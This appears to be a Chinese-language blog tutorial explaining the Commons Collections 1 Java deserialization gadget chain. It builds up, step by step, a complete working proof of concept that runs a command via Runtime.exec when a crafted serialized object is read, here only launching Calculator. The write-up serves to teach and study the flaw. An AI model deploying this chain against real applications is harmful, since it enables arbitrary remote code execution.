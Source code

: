 # CommonsCollections1链详解


# CommonsCollections1链详解
jdk8源码下载
https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/af660750b2f4
**漏洞触发点在**`org.apache.commons.collections.functors.InvokerTransformer`
其中的`transform()`方法

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142003386.png)

很明显的一个反射调用，其中`iMethodName、iParamTypes、iArgs`都是可控的变量，便可以调用任意方法和任意参数
看一下构造器是如何赋值的

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142005500.png)

构造一个简单的 payload 试试
`new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;}).transform(Runtime.getRuntime());`
``

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142007538.png)

找一个任意类调用`transforms()`方法的方法，这里选择`org.apache.commons.collections.map.TransformedMap`类的`checkSetValue()`方法

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142009339.png)


![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142010479.png)

`valueTransformer`变量可控

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142011147.png)

但是因为构造器是`protected`修饰，所以无法直接调用，利用这里的静态方法`decorate()`进行了调用

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142012194.png)

再查看一下哪里调用了`checkSetValue()`方法，只有这一处

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142022694.png)

`setValue()`方法调用了`checkSetValue()`，构造一个`payload`，看看能不能通
```java
Runtime r = Runtime.getRuntime();  
InvokerTransformer invokerTransformer = new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;});  
HashMap&lt;Object,Object&gt; map = new HashMap&lt;&gt;();  
map.put(&#34;key&#34;,&#34;value&#34;);  
Map&lt;Object,Object&gt; transformedMap = TransformedMap.decorate(map,null,invokerTransformer);  
  
for(Map.Entry entry:transformedMap.entrySet()){  
    entry.setValue(r);
```

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142036218.png)

接着找一个`setValue()`方法的调用，在`sun.reflect.annotation.AnnotationInvocationHandler`类中，找到了如下方法

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142044567.png)

这里调用了`setValue()`方法，并且还在`readObject()`方法中，继续构造`poc`
```java
Runtime r = Runtime.getRuntime();  
InvokerTransformer invokerTransformer = new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;});  
HashMap&lt;Object,Object&gt; map = new HashMap&lt;&gt;();  
map.put(&#34;key&#34;,&#34;value&#34;);  
Map&lt;Object,Object&gt; transformedMap = TransformedMap.decorate(map,null,invokerTransformer);  
  
Class c = Class.forName(&#34;sun.reflect.annotation.AnnotationInvocationHandler&#34;);  
Constructor annotationInvocationhandleconstructor = c.getDeclaredConstructor(Class.class,Map.class);  
annotationInvocationhandleconstructor.setAccessible(true);  
Object o = annotationInvocationhandleconstructor.newInstance(Target.class,transformedMap);
```
但是这里存在两个问题
第一个问题是`Runtime`没有实现`Seriablable`接口，无法参与序列化过程
利用反射来解决，这里再利用一个`ChainedTransformer.transform`方法

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142055839.png)

简单来说就是上一个执行`transform`方法返回的结果作为下一个执行`transform`方法输入
```java
Transformer[] transformers = new Transformer[]{  
        new InvokerTransformer(&#34;getMethod&#34;,new Class[]{String.class,Class[].class},new Object[]{&#34;getRuntime&#34;,null}),  
        new InvokerTransformer(&#34;invoke&#34;,new Class[]{Object.class,Object[].class},new Object[]{null,null}),  
        new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})  
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```
还有一个问题，无法控制`setValue()`里面的参数值

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142058315.png)

这里利用`org.apache.commons.collections.functors.ConstantTransformer`的`transform()`方法，无论传入什么，都会返回固定的值

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142059785.png)

所以完善一下上面的`poc`
```java
Transformer[] transformers = new Transformer[]{
		new ConstantTransformer(Runtime.class),
        new InvokerTransformer(&#34;getMethod&#34;,new Class[]{String.class,Class[].class},new Object[]{&#34;getRuntime&#34;,null}),  
        new InvokerTransformer(&#34;invoke&#34;,new Class[]{Object.class,Object[].class},new Object[]{null,null}),  
        new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})  
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```
于是完整的`poc`如下
```java
package org.example.CommonsCollections;  
  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.TransformedMap;  
  
import java.io.*;  
import java.lang.annotation.Target;  
import java.lang.reflect.Constructor;  
import java.util.HashMap;  
import java.util.Map;  
  
public class CommonsCollection1 {  
    public static void main(String[] args) throws Exception{  
  
        Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(Runtime.class),  
                new InvokerTransformer(&#34;getMethod&#34;,new Class[]{String.class,Class[].class},new Object[]{&#34;getRuntime&#34;,null}),  
                new InvokerTransformer(&#34;invoke&#34;,new Class[]{Object.class,Object[].class},new Object[]{null,null}),  
                new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})  
        };  
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
        chainedTransformer.transform(Runtime.class);  
        InvokerTransformer invokerTransformer =new  InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;});  
        HashMap&lt;Object, Object&gt; map = new HashMap&lt;&gt;();  
        map.put(&#34;value&#34;,&#34;value&#34;);  
        Map&lt;Object,Object&gt; transformedMap = TransformedMap.decorate(map,null,chainedTransformer); 
        Class c = Class.forName(&#34;sun.reflect.annotation.AnnotationInvocationHandler&#34;);  
        Constructor AnnotationInvocationHandlerConstructor = c.getDeclaredConstructor(Class.class,Map.class);  
        AnnotationInvocationHandlerConstructor.setAccessible(true);  
        Object o = AnnotationInvocationHandlerConstructor.newInstance(Target.class,transformedMap);  
        serialize(o);  
        unserialize(&#34;ser.bin&#34;);  
  
    }  
  
    public static void serialize(Object obj) throws Exception{  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(&#34;ser.bin&#34;));  
        oos.writeObject(obj);  
    }  
  
    public static Object unserialize(String filename) throws Exception{  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));  
        Object obj = ois.readObject();  
        return obj;  
  
    }  
}
```

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142111136.png)

### 注
这里为什么要用`Target`
`Object o = AnnotationInvocationHandlerConstructor.newInstance(Target.class,transformedMap);`
因为`Target`中有值是`value`

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142103316.png)

这里的`getKey()`获取的就是，上面`map.put()`放入的`key`值

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142108071.png)

`map.put(&#34;value&#34;,&#34;value&#34;);`
`key`放入`value`，正好能取出`Target`中的值，所以就绕过了`if`条件



---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/posts/ca4c9c3/  

